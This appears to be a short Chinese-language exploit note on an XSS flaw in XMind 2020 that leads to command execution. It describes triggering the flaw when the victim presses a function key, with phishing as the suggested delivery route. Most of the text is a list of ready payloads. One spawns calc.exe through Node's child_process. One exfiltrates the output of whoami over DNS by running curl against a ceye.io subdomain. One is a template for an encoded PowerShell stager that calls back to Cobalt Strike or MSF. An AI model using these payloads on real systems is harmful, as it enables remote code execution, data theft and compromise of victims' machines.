 # XMind 2020 存在XSS导致命令执行漏洞
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
# 部分payload
简单弹窗`<img src=1 onerror=alert("1")>`<br>
弹计算器`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
DNS带外`<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">`<br>
通过对powershell进行编码，然后替换payload上线cs`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`

